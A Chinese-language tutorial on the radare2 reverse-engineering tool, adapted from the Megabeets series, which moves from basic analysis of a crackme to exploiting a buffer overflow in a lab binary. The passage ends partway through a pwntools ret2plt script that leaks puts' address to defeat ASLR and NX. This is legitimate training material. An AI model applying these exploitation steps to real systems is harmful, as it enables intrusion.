

# Radare2

一款免费/自由的工具链，用于简化多种低级别任务，例如电子取证、软件逆向、渗透、调试等等。它由一组库（可扩展）和程序组成，几乎可以用于各种编程语言。

Radare2 在CTF或逆向分析过程中是非常有用的。但是只有少部分人了解radare2，也许是因为很多人不喜欢放弃已经熟悉的工具，例如：IDA Pro, x64dbg, Ghidra, OllyDBG, gdb等等。但是radare2是非常有必要列入自己工具集的。

主要功能特性：
- Batch, commandline, visual and panels interactive modes
- Embedded webserver with js scripting and webui
- Assemble and disassemble a large list of CPUs
- Runs on Windows and any other UNIX flavour out there
- Analyze and emulate code with ESIL
- Native debugger and GDB, WINDBG, QNX and FRIDA
- Navigate ascii-art control flow graphs
- Ability to patch binaries, modify code or data
- Search for patterns, magic headers, function signatures
- Easy to extend and modify
- Commandline, C API, script with r2pipe in any language


## 安装、升级、卸载
推荐从github获取安装最新版本

```
$ git clone https://github.com/radareorg/radare2
$ cd radare2 ; sys/install.sh
```

更新r2也可以使用上述命令。


如果安装中遇到问题，可以尝试下面的指令
```
$ sudo make purge
$ rm -rf shlr/capstone
$ git clean -xdf
$ git reset --hard @~50
$ sys/install.sh
```

如果要卸载，可以使用下列命令：
```
make uninstall
make purge
```


## 基本用例

> 文章源自 ：
> 1. https://www.megabeets.net/a-journey-into-radare-2-part-1/
> 2. https://www.megabeets.net/a-journey-into-radare-2-part-2/

Radare2 可以用于多种用途，可以从命令行、shell脚本调用独立的工具。

为了快速了解R2提供的各种命令，最简单的方法是从学习如何使用其帮助系统开始。在已安装r2的系统中的命令行中键入命令：`r2 -h`。可以看到命令行中出现的各种提示，例如：
```
Usage: r2 [-ACdfLMnNqStuvwzX] [-P patch] [-p prj] [-a arch] [-b bits] [-i file]
          [-s addr] [-B baddr] [-m maddr] [-c cmd] [-e k=v] file|pid|-|--|=
 -            same as 'r2 malloc://512'
 -a [arch]    set asm.arch
 -A           run 'aaa' command to analyze all referenced code
 -b [bits]    set asm.bits
 -B [baddr]   set base address for PIE binaries
 -c 'cmd..'   execute radare command
 -d           debug the executable 'file' or running process 'pid'
 -i [file]    run script file
 -k [OS/kern] set asm.os (linux, macos, w32, netbsd, ...)
 -l [lib]     load plugin file
 -p [prj]     use project, list if no arg, load if no file
 -w           open file in write mode
```

### 获取基本信息

当我们面对一些逆向工作时（我把他们成为challenges），首先要考虑这个二进制文件（或片段）的基本信息。

执行命令`rabin2 -I <二进制文件名>`

这个命令将提取如ELF、PE、Mach-O、Java-Class等二进制中的信息，包括：
- Sections
- Headers
- Imports
- Strings
- Entrypoints
- ...

命令可以多种格式输出。

例如，使用 -I 参数打印os、语言、endianness、架构、mitigations（canary，pic，nx）等等：

```
$ rabin2 -I megabeets_0x1
arch     x86
baddr    0x8048000
binsz    6220
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```

上面的输出可以很清楚的看出，二进制文件 megabeets_0x1 是一个32位的 ELF 文件，not stripped and dynamically linked。
它没有使用什么安全机制。

### 运行二进制文件
**注意：运行一个二进制文件可能会危害你的系统。**

首先，我们尝试直接运行一个二进制文件：

```bash
$ ./megabeets_0x1
 
  .:: Megabeets ::.
Think you can make it?
Nop, Wrong argument.
 
$ ./megabeets_0x1 abcdef
 
  .:: Megabeets ::.
Think you can make it?
Nop, Wrong argument.

```

上面的输出显示这个程序打印了“Nop, Wrong argument".之后，我们猜测需要提供给函数一个参数才能运行，我们键入abcdef作为参数。但仍然失败了。那么这个challenge可能需要破解参数/口令才能完成。

让我们使用radare2来运行它：
```bash
$ r2 megabeets_0x1
 -- Thank you for using radare2. Have a nice night!
[0x08048370]>
```

上面显示了一段欢迎词，并且给出了等待接收用户命令的提示符，以及当前r2跟踪到的地址`[0x08048370]`。默认地，R2会自动跟踪到这个二进制文件的入口点地址（entrypoint），可以用下列`ie`命令(查找入口点)检查是否正确：

```bash
[0x08048370]> ie
[Entrypoints]
vaddr=0x08048370 paddr=0x00000370 haddr=0x00000018 hvaddr=0x08048018 type=program 1 entrypoints

```

### 分析

默认情况下，radare2不分析文件，因为分析可能是非常复杂的过程，需要很长的时间。radare2能提供的分析功能很多，需要手动去执行。这些命令通常以`a`开头。

```bash
0x08048370]> a?
Usage: a  [abdefFghoprxstc] [...]
| a                  alias for aai - analysis information
| a*                 same as afl*;ah*;ax*
| aa[?]              analyze all (fcns + bbs) (aa0 to avoid sub renaming)
| a8 [hexpairs]      analyze bytes
| ab[b] [addr]       analyze block at given address
| abb [len]          analyze N basic blocks in [len] (section.size by default)
| ac[?]              manage classes
| aC[?]              analyze function call
| aCe[?]             same as aC, but uses esil with abte to emulate the function
| ad[?]              analyze data trampoline (wip)
| ad [from] [to]     analyze data pointers to (from-to)
| ae[?] [expr]       analyze opcode eval expression (see ao)
| af[?]              analyze Functions
| aF                 same as above, but using anal.depth=1
| ag[?] [options]    draw graphs in various formats
| ah[?]              analysis hints (force opcode size, ...)
| ai [addr]          address information (show perms, stack, heap, ...)
| aj                 same as a* but in json (aflj)
| aL                 list all asm/anal plugins (e asm.arch=?)
| an [name] [@addr]  show/rename/create whatever flag/function is used at addr
| ao[?] [len]        analyze Opcodes (or emulate it)
| aO[?] [len]        Analyze N instructions in M bytes
| ap                 find prelude for current offset
| ar[?]              like 'dr' but for the esil vm. (registers)
| as[?] [num]        analyze syscall using dbg.reg
| av[?] [.]          show vtables
| ax[?]              manage refs/xrefs (see also afx?)
```

最常用的分析命令是：`aa` 和 `aaa` ，如果想一开始就启动分析，可以使用`r2 -A megabeets_0x1`。

```bash
[0x08048370]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
```

### Flags

经过分析，radare2 会将一些地址偏移与一些命名关联，例如 Sections，Function，Symbols，Strings。这些命名都称为 flags 。Flags 可以被分组到 flag spaces 中。一个 flag space 是一组相近特征或类型的 flags 的命名空间。

打印查看flag spaces可以使用命令 `fs`:
```bash
[0x08048370]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
...


```

我们可以使用 `fs <flagspace>`选择一个flag space；若要打印该flags到标准输出，可以使用`f`。例如：
```bash
[0x08048370]> fs imports; f
0x00000000 16 loc.imp.__gmon_start
0x08048320 6 sym.imp.strcmp
0x08048330 6 sym.imp.strcpy
0x08048340 6 sym.imp.puts
0x08048350 6 sym.imp.__libc_start_main
```

上面的输出可以看到在 imports 这个flag space中的所有flag，以及对应的地址。类似的命令还包括：打出所有的strings `fs strings; f`。

```
[0x08048370]> fs strings 
[0x08048370]> f
0x08048700 21 str..::_Megabeets_::.
0x08048715 23 str.Think_you_can_make_it
0x0804872c 10 str.Success
0x08048736 22 str.Nop__Wrong_argument.
```

### strings

Radare2 会将字符串、变量名的偏移位置打上 flags。有几种方法可以查看：

- `iz`，列出数据段的字符串；
- `izz`，列出二进制文件中所有的字符串。

```
[0x08048370]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000700 0x08048700 20  21   .rodata ascii \n  .:: Megabeets ::.
1   0x00000715 0x08048715 22  23   .rodata ascii Think you can make it?
2   0x0000072c 0x0804872c 9   10   .rodata ascii Success!\n
3   0x00000736 0x08048736 21  22   .rodata ascii Nop, Wrong argument.\n

```

假如我们对使用"Success"字符串感兴趣，我们可以查看他们在什么位置被引用：

```bash
[0x08048370]> axt @@ str.*
main 0x8048609 [DATA] push str..::_Megabeets_::.
main 0x8048619 [DATA] push str.Think_you_can_make_it
main 0x8048646 [DATA] push str.Success
main 0x8048658 [DATA] push str.Nop__Wrong_argument.

```

说明：
- `axt` 命令用于分析 x-refs to。
- 运算符 `@@` 类似一种循环变量，用于在某个偏移列表上重复执行一个命令
- `str.*` 是一个对所有以str.为开头的字符串的通配符。

上述命令不仅列出了strings flags 还列出了引用这些字符串的函数名。当然，在使用上述命令前需要确保选择这个strings flag space ，默认使用`fs *` 。

### 搜索定位 seeking

在打开二进制文件后，我们会停在入口点。如果需要改变便宜位置，可以使用s？命令。

```bash
[0x08048370]> s?
Usage: s    # Help for the seek commands. See ?$? to see all variables
| s                 Print current address
| s.hexoff          Seek honoring a base from core->offset
| s:pad             Print current address with N padded zeros (defaults to 8)
| s addr            Seek to address
| s-                Undo seek
| s-*               Reset undo seek history
| s- n              Seek n bytes backward
| s--[n]            Seek blocksize bytes backward (/=n)
| s+                Redo seek
| s+ n              Seek n bytes forward
| s++[n]            Seek blocksize bytes forward (/=n)
| s[j*=!]           List undo seek history (JSON, =list, *r2, !=names, s==)
| s/ DATA           Search for next occurrence of 'DATA'
| s/x 9091          Search for next occurrence of \x90\x91
| sa [[+-]a] [asz]  Seek asz (or bsize) aligned to addr
| sb                Seek aligned to bb start
| sC[?] string      Seek to comment matching given string
| sf                Seek to next function (f->addr+f->size)
| sf function       Seek to address of specified function
| sf.               Seek to the beginning of current function
| sg/sG             Seek begin (sg) or end (sG) of section or file
| sl[?] [+-]line    Seek to line
| sn/sp ([nkey])    Seek to next/prev location, as specified by scr.nkey
| so [N]            Seek to N next opcode(s)
| sr pc             Seek to register
| ss                Seek silently (without adding an entry to the seek history)

```

基本上 seek 命令使用一个地址或数学表达式作为参数，表达式可以是数学运算符、flag或内存访问符。假设我们寻找 main function，可以执行`s main`,但是，我们通常会先使用 `afl` 命令列出有哪些函数 flags。

```
[0x08048370]> afl
0x08048370    1 33           entry0
0x08048350    1 6            sym.imp.__libc_start_main
0x080483b0    4 43           sym.deregister_tm_clones
0x080483e0    4 53           sym.register_tm_clones
0x08048420    3 30           sym.__do_global_dtors_aux
0x08048440    4 43   -> 40   entry.init0
0x080486e0    1 2            sym.__libc_csu_fini
0x080483a0    1 4            sym.__x86.get_pc_thunk.bx
0x0804846b   19 282          sym.rot13
0x080486e4    1 20           sym._fini
0x08048585    1 112          sym.beet
0x08048330    1 6            sym.imp.strcpy
0x08048320    1 6            sym.imp.strcmp
0x08048680    4 93           sym.__libc_csu_init
0x080485f5    5 127          main
0x080482ec    3 35           sym._init
0x08048340    1 6            sym.imp.puts

```

我们可以看到上面的一些 imports，.ctors , entrypoints，libc，main和两个令人感兴趣的函数：sym.beet 和 sym.rot13。

### 反汇编 Disassembling

#### main function

使用`s main`定位到main函数入口，然后用`pdf`反汇编这个函数。注意地址的改变。

注意：使用现代OS时，若要终端显示utf-8，执行`e scr.utf8=true` 和 `e scr.utf8.curvy=true` ，这能够使输出更好看一些。或者在配置文件`~/.radare2rc`中永久设置。

```bash
[0x08048370]> s main
[0x080485f5]> pdf
            ; DATA XREF from entry0 @ 0x8048387
  int main (int32_t arg_4h);
       ; var int32_t var_8h @ ebp-0x8
       ; arg int32_t arg_4h @ esp+0x24
       0x080485f5      8d4c2404       lea ecx, [arg_4h]
       0x080485f9      83e4f0         and esp, 0xfffffff0
       0x080485fc      ff71fc         push dword [ecx - 4]
       0x080485ff      55             push ebp
       0x08048600      89e5           mov ebp, esp
       0x08048602      53             push ebx
       0x08048603      51             push ecx
       0x08048604      89cb           mov ebx, ecx
       0x08048606      83ec0c         sub esp, 0xc
       0x08048609      6800870408     push str..::_Megabeets_::.  ; "\n  .:: Megabeets ::." ; const char *s
       0x0804860e      e82dfdffff     call sym.imp.puts           ; int puts(const char *s)
       0x08048613      83c410         add esp, 0x10
       0x08048616      83ec0c         sub esp, 0xc
       0x08048619      6815870408     push str.Think_you_can_make_it  ; "Think you can make it?" ; const char *s
       0x0804861e      e81dfdffff     call sym.imp.puts     ; int puts(const char *s)
       0x08048623      83c410         add esp, 0x10
       0x08048626      833b01         cmp dword [ebx], 1
   ╭─< 0x08048629      7e2a           jle 0x8048655
   │   0x0804862b      8b4304         mov eax, dword [ebx + 4]
   │   0x0804862e      83c004         add eax, 4
   │   0x08048631      8b00           mov eax, dword [eax]
   │   0x08048633      83ec0c         sub esp, 0xc
   │   0x08048636      50             push eax
   │   0x08048637      e849ffffff     call sym.beet
   │   0x0804863c      83c410         add esp, 0x10
   │   0x0804863f      85c0           test eax, eax
  ╭──< 0x08048641      7412           je 0x8048655
  ││   0x08048643      83ec0c         sub esp, 0xc
  ││   0x08048646      682c870408     push str.Success       ; "Success!\n" ; const char *s
  ││   0x0804864b      e8f0fcffff     call sym.imp.puts      ; int puts(const char *s)
  ││   0x08048650      83c410         add esp, 0x10
 ╭───< 0x08048653      eb10           jmp 0x8048665
 │││   ; CODE XREFS from main @ 0x8048629, 0x8048641
 │╰╰─> 0x08048655      83ec0c         sub esp, 0xc
 │     0x08048658      6836870408     push str.Nop__Wrong_argument. ; "Nop, Wrong argument.\n" ; const char *s
 │     0x0804865d      e8defcffff     call sym.imp.puts      ; int puts(const char *s)
 │     0x08048662      83c410         add esp, 0x10
 │     ; CODE XREF from main @ 0x8048653
 ╰───> 0x08048665      b800000000     mov eax, 0
       0x0804866a      8d65f8         lea esp, [var_8h]
       0x0804866d      59             pop ecx
       0x0804866e      5b             pop ebx
       0x0804866f      5d             pop ebp
       0x08048670      8d61fc         lea esp, [ecx - 4]
       0x08048673      c3             re 
```

读上面的汇编代码，我们可以将其简化为一段伪代码：
```c
//f any argument passed to the program AND the result of beet, given the passed argument, is true
// argc is the number of arguments passed to the program
// argc will be at least 1 becuase the first argument is the program name
// argv is the array of parameters passed to the program
if (argc > 1 && beet(argv[1]) == true) 
{
    print "success"
} else { 
     print "fail"
} 
exit
```

#### 可视化模式或图形模式

Radare2 有比较强的可视化模式，对用户更友好。使用 `V` 命令启动可视化模式屏幕。

使用`p/P`命令可以切换模式，在屏幕顶端时当前指令。按`q`可以退出可视化模式。

一些可用的命令：
- `x/X` 列出当前偏移 refs-to /from 
- `: command` 在可视化模式下执行r2 命令，类似于vim
- `;comment` 加回车，可以在某个偏移后加入注释，或者使用`;-`删除注释；使用`;!`使用默认的文本编辑器编辑注释。
- `m<key>` 可以使用一个自己选择的key来标记特别偏移，按`'<key>`跳转到你的key，这有助于快速导航到这个位置。
- `q` 退出返回r2 shell。

#### 可视化图

Radare2 有一个图模式。使用`VV`进入可视化图模式，按上下作用键可以查看全景。

使用`g`和key可以快速跳到key指定的函数。

#### 反汇编 ‘beet'

了解基本的使用后，我们来看一下反汇编beet的情况。上面已经知道beet函数负责处理传递到程序的参数，我们打印beet可以有多种方法：

- seek to beet，可以使用`s sym.beet`。可以使用 `f sym.+TAB` 查看函数。
- 使用`pdf @ sym.beet` 打印 beet。 `@` 用作temporary seeking.
- 从可视模式下，从main 跳转到beet 可以按 2
- 从可视模式下，从main 跳转到beet 可以按 oc

从汇编代码中可以找到命令行传入的参数放在ebp-local_88h，如果要显示0x88的不同进制下的值，可以使用`? 0x88`

在可视模式下执行r2命令，需要先键入`:`.


```bash
:> ? 0x88
int32   136
uint32  136
hex     0x88
octal   0210
unit    136
segment 0000:0088
string  "\x88"
fvalue: 136.0
float:  0.000000f
double: 0.000000
binary  0b10001000
trits   0t12001
```

当前 stack 中的 buffer 占用 128字节，下4个字节存放ebp指针（指向上一个stack frame），再下4个字节存放返回地址，总共是136个字节。


在缓冲区被给定参数填充后，然后将其与名为 的函数的结果进行比较sym.rot13。 Rot-13是一种著名的替换密码，在 CTF 和 Crackmes 中大量使用。该函数使用 9 个十六进制值调用，这些值看起来像是雷达为我们识别的。在反汇编的注释中，我们可以看到“Mega”、“beet”和“s”，它们共同构成了字符串“Megabeets”。

二进制文件对“Megabeets”执行 rot13，然后将结果与我们使用传递的参数进行比较strcmp。幸运的是，我们不需要努力工作，因为 r2 框架已经在其实用程序中包含了 rot13 密码工具rahash2 。

rahash2使用各类hash方法计算文件或字符串的校验和。

```bash
[ 0x08048585 ]> !rahash2 -E rot -S s: 13 -s "Megabeets\n"
Zrtnorrgf

```

rahash2 执行了 rot13(“Megabeets”)，结果是“Zrtnorrgf”。通过使用`!` ，我们可以在 r2 shell 中执行 shell 命令，如 system(3). 我们可以假设“Zrtnorrgf”与我们的输入进行比较。`ood` 命令可以把“Zrtnorrgf”作为参数，以调试模式打开二进制文件，ood?看看我们会得到什么。

```bash
[0x08048585]> ood?
Usage: ood   # Debug (re)open commands
| ood [args]      # reopen in debug mode (with args)
| oodf [file]     # reopen in debug mode using the given file
| oodr [rarun2]   # same as dor ..;ood
 
[0x08048585]> ood Zrtnorrgf
Process with PID 26850 started...
= attach 26850 26850
File dbg:///home/beet/megabeets/crackmes/megabeets_0x1  Zrtnorrgf reopened in read-write mode
26850
```

上面的命令是使用r2 debugger打开 megabeets_0x1 并传入参数。然后使用`dc`继续执行：

```bash
[0xf7f4a120]> dc
  .:: Megabeets ::.
Think you can make it?
Success!
```

可见，我们得到了希望看到的success。


## 进阶使用——渗透二进制

Radare2 有很多利于渗透二进制的功能：安全机制检查、RPO gadget searching、random patterns generation、register telescoping等等。

下面的例子显示了在一个 ASLR enabled system 中绕过 nx 保护的二进制。[例子文件](https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2)和[例子源码](https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c)


使用下列命令可以编译源码：
```bash
$gcc -m32 -fno-stack-protector -no-pie megabeets_0x2.c -o megabeets_0x2 
```
这个例子和基本用例中的很像，但main函数中有所不同。

- 编译过程中不使用`-z execstac` ,启动了 NX bit
- 使用scanf接收用户输入，而不是使用参数传入。
- 使用puts 打印到屏幕
- 程序输出字符的些许不同

先前的main：

```c
int main(int argc, char *argv[])
{
    printf("\n  .:: Megabeets ::.\n");
    printf("Think you can make it?\n");
    if (argc >= 2 && beet(argv[1]))
    {
        printf("Success!\n\n");
    }
    else
        printf("Nop, Wrong argument.\n\n");

    return 0;
}
```

现在的main：
```c
int main(int argc, char *argv[])
{
    char *input; 
    puts("\n  .:: Megabeets ::.\n");
    puts("Show me what you got:");
    
    scanf("%ms", &input);
    if (beet(input))
    {
        printf("Success!\n\n");
    }
    else
        puts("Nop, Wrong argument.\n\n");

    return 0;
}
```

该二进制文件的功能十分简单，首先询问用户输入，然后对输入字符串执行 rot13 并与字符串"Zrtnorrgf"相比较。

```bash
$ ./megabeets_0x2 

  .:: Megabeets ::.

Show me what you got:
blablablabla
Nop, Wrong argument.

$ ./megabeets_0x2 

  .:: Megabeets ::.

Show me what you got:
Zrtnorrgf
Success!

```

### 理解这个漏洞

对于每一个渗透挑战，对其做安全机制检查是一个好习惯。
例如使用rabin2 来显示各种基本信息。


```bash
$ rabin2 -I megabeets_0x2

arch     x86
binsz    6072
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
static   false
stripped false
subsys   linux
va       true
```
NX  表示不可在堆栈中执行代码。此外，这个文件没有使用 canaries，pic，relro进行保护。
  
现在，我们快速查看一下这个程序的执行过程，我们使用下面命名进入调试模式：

```bash
$ r2 -d megabeets_0x2
Process with PID 20859 started…
= attach 20859 20859
bin.baddr 0x08048000
Using 0x8048000
Assuming filepath /home/beet/Desktop/Security/r2series/0x2/megabeets_0x2
asm.bits 32– Your endian swaps
[0xf7782b30]> aas
```
- -d 表示调试模式
- aas 表示分析函数，符号等等。
- aaa 命令不总是推荐，因为这个分析过程非常复杂。

下面我们执行到main函数入口处。
```bash
[0xf7797b30]> dcu?
|Usage: dcu Continue until address
| dcu address      Continue until address
| dcu [..tail]     Continue until the range
| dcu [from] [to]  Continue until the range

[0xf7797b30]> dcu main
Continue until 0x08048658 using 1 bpsize
hit breakpoint at: 8048658
```

- `dcu` 表示执行到某个地址。

接下来使用`VV`，我们进入可视化模式。这里需要注意的一个工具是按 `r` ,可以看到用于快速定位的短名(例如下图中的ga、gb、gc)在变化，那么键入短名就可快速的定位到该位置/函数。


可以看到，用户输入【arg_8h】被拷贝到一个buffer【local_88h】,然后我们看到了字符串 Megabeets 被使用rot13加密，然后将结果与输入比较。

能看出来什么问题么？

输入的size从来没有被检查过。意味着键入的输入可以很大，大于buffer的size后，可能引起缓冲区溢出。这就是一个漏洞。

### 构造exploit

发现了漏洞点，我们可以构造一个payload来利用漏洞。我们的目标就是得到system shell。首先，需要验证是否真的存在漏洞函数，然后找到我们的payload覆盖的stack。

我们使用一个radare2提供的工具 `ragg2` ,他能够生成一个名为[ De Bruijin Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)的循环模式，并检查我们的payload覆盖buffer的具体偏移。

```bash
$ ragg2 -
<truncated>
 -P [size]       prepend debruijn pattern
<truncated>
 -r              show raw bytes instead of hexpairs
<truncated>

$ ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh

```

`rarun2` 用作启动程序，可运行不同环境、参数、权限、目录和覆盖默认文件描述符的程序。当您必须使用长参数运行程序、将大量数据传递给 stdin 或诸如此类的东西时，它非常有用，这通常是利用二进制文件的情况。

我们需要做以下几步：
- 1.使用 ragg2 写一个 DeBruijin 模式的内容到文件
- 2.生成 rarun2 profile 文件并设定输出文件为 stdin
- 3.使用 radare2 做分析，发现偏移。

```bash
$ ragg2 -P 200 -r > pattern.txt
$ cat pattern.txt
AAABAACAADAAEAAFAAGAAHAAI… <truncated> …7AA8AA9AA0ABBABCABDABEABFA
# 注意，这里如果写100是不能产生明显错误的。
$ vim profile.rr2
 
$ cat profile.rr2
#!/usr/bin/rarun2
stdin=./pattern.txt
 
$ r2 -r profile.rr2 -d megabeets_0x2
Process with PID 21663 started…
= attach 21663 21663
bin.baddr 0x08048000
Using 0x8048000
Assuming filepath /home/beet/Desktop/Security/r2series/0x2/megabeets_0x2
asm.bits 32
 
— Use rarun2 to launch your programs with a predefined environment.
[0xf77c2b30]> dc
Selecting and continuing: 21663
 
.:: Megabeets ::.
 
Show me what you got?
child stopped with signal 11
 
[0x41417641]>
```

上面的例子显示了我们通过rarun2传递 pattern.txt 给标准输入，并执行二进制文件，最后收到 SIGSEV 11。这个信号是一个异步通知，发送给进程或相同进程中特定线程，以通知他某个事件发生了。 表示无效的虚地址引用或段错误，例如执行了一个段违规。

注意到当前地址了么？`0x41417641` ，这个无效地址表达了 `AvAA` (ASCII little-endian) ，一个我们payload中的片段。radare允许我们找到一个DeBruijin模式中给定值的offset。

```
[0x41417641]> wop?
|Usage: wop[DO] len @ addr | value
| wopD len [@ addr]  Write a De Bruijn Pattern of length ‘len’ at address ‘addr’
| wopO value         Finds the given value into a De Bruijn Pattern at current offset
[0x41417641]> wopO `dr eip`
140
```
- 指令`wopO` 找到给定值 　 `dr eip` 即 0x41417641 或 "AvAA" 所在的便宜位置。
- 指令`dr eip` 会返回 0x41417641。
- 现在我们知道返回地址的覆盖发生在140字节之后，我们可以开始设计有效负载了。

现在，我们知道了覆盖返回地址的payload字节在140字节之后，我们可以开始构建自己的payload了。

### 生成exploit

我们的目标是获得shell。有许多种方法可以实现，特别是对于上面例子中有漏洞的代码。为了理解我们可以做什么，我们首先需要理解我们不能做什么。
- 我们的机器被ASLR机制保护，所以不能预测libc的内存地址，所以不容易实现ret2libc。
- 我们的二进制文件被NX所保护，意味着堆栈不可执行，所以不能将shellcode放在stack中，实现跳转执行。

尽管这些保护阻止我们使用一些渗透技术，但我们还是可以绕过他们。

为了汇编我们的exploit，我们需要仔细的看一下这些库和函数。

以调试模式打开二进制文件，查看使用的库和函数。

```bash
$ r2 -d megabeets_0x2
Process with PID 23072 started…
= attach 23072 23072
bin.baddr 0x08048000
Using 0x8048000
Assuming filepath /home/beet/Desktop/Security/r2series/0x2/megabeets_0x2
asm.bits 32
— You haxor! Me jane?
[0xf7763b30]> il
[Linked libraries]
libc.so.61 library
```

- `il` 显示了当前二进制所用的库和版本。

```
[0xf7763b30]> ii
[Imports]
ordinal=001 plt=0x08048370 bind=GLOBAL type=FUNC name=strcmp
ordinal=002 plt=0x08048380 bind=GLOBAL type=FUNC name=strcpy
ordinal=003 plt=0x08048390 bind=GLOBAL type=FUNC name=puts
ordinal=004 plt=0x00000000 bind=WEAK type=NOTYPE name=__gmon_start__
ordinal=005 plt=0x080483a0 bind=GLOBAL type=FUNC name=__libc_start_main
ordinal=006 plt=0x080483b0 bind=GLOBAL type=FUNC name=__isoc99_scanf6 imports

[0xf7763b30]> iiq
strcmp
strcpy
puts
__gmon_start__
__libc_start_main
__isoc99_scanf
```

- `ii` 显示所有imports
- `iiq` 进现实imports 不显示详细细节


我们看到puts和scanf，这两个函数可以帮助我们构建exploit。我们的exp将利用我们可以控制程序执行流的事实，还记得`ret`尝试跳转到`0x41417641`么？

我们将尝试执行一个system("/bin/sh") 弹出一个shell。

### 计划
- leak puts的物理地址
- 计算libc的基地址
- 计算system的地址
- 找到libc中包含string /bing/sh 的地址
- 使用/bin/sh调用system

### leaking puts的地址

为了查找利用 puts的地址，我们使用一种叫做ret2plt的技术。 Procedure Linkage Table 是一种内存结构，包含了一个存放链接时不能确定物理地址的函数的代码存根（stub）。我们在 .text 段找到的 CALL 指令，不是直接调用函数，而是在PLT中找这个函数的存根，即所谓 func_name@plt。

这个stub被调用后会跳转到全局偏移表（GOT）中函数所列的地址。假如是第一次调用这个函数，那么 GOT entry 将指回到 PLT，按顺序将调用一个动态链接，这个链接会解析所希望调用的函数的真实地址。接下来 func_name@plt 被调用，stub 直接获取GOT中的该函数地址。


为了实现上面的分析，我们将查找PLT中和GOT中的puts地址，然后以 `puts@got` 为参数调用 `puts@plt` 。我们将链式调用和发送他们到程序中scanf的地方（希望接受用户输入的地方）。然后我们将返回entrypoint 作第二阶段的exploit。值得注意的是，puts将打印它自己的物理地址！！！

为了写exploit ，我们下载pwnlib框架，这是个非常好的渗透工具。简化了很大工作。

安装 `pip3 install pwntools`

下面是我们第一阶段的python骨架：

```python
from pwn import *

# Addresses
puts_plt =
puts_got =
entry_point =

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140 # padding
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
  

if __name__ == "__main__":
    main()
```

我们需要填入 puts_plt 、puts_got 、entry_point 的地址。回到radare2 执行下列命令。

```bash
[0xf7763b30]> # the address of puts@plt:
[0xf7763b30]> ?v sym.imp.puts
0x08048390
[0xf7763b30]> # the address of puts@got:
[0xf7763b30]> ?v reloc.puts
0x0804a014
[0xf7763b30]> # the address of program’s entry point (entry0):
[0xf7763b30]> ieq
0x080483d0
```

说明：
- `#` 字符用于加注注释
- `~` 字符用于radare的内部grep
- `?v` 用于计算后面符号的值。
- `sym.imp.puts` 是radare2 自动标记的plt stub
- `reloc.puts` 是 radare2 自动标记的got
- `ieq` 是显示程序入口地址的命令

现在我们将exp.py中的几个地址填入具体值。
```py
...

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

...
```

让我们执行这个python 脚本：

```sh
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23578
[*] puts is at: 0xf75db710
[*] Stopped process ‘./megabeets_0x2’ (pid 23578)
 
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23592
[*] puts is at: 0xf7563710
[*] Stopped process ‘./megabeets_0x2’ (pid 23592)
 
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23606
[*] puts is at: 0xf75e3710
[*] Stopped process ‘./megabeets_0x2’ (pid 23606)
```

我们执行了3次，结果显示每次puts的地址都是不同的。这意味着我们不能事先确定puts地址。现在我们需要找到 puts 在 libc 中的偏移，然后计算 libc 的基地址。在我们有了基地址后，我们可以使用相应的偏移量计算 system，exit 和 “/bin/sh” 等的真实地址。

基本代码如下：
```python
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 
offset_system = 
offset_str_bin_sh = 
offset_exit = 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    
    p.clean()
    
    # Calculate libc base

